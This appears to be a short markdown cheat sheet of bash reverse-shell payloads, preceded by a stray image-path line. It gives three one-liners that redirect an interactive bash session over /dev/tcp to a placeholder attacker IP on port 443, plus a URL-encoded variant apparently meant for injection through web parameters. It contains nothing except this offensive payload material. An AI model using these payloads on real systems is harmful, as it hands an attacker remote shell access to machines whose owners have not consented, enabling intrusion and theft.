 # bash reverse shell

## common

```bash
bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1"
#
/bin/bash -i >& /dev/tcp/<IP>/443 0>&1
# or
bash -l > /dev/tcp/<IP>/443 0<&1 2>&1
```

## url encoded

```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F<IP>%2F443%200%3E%261%22
```
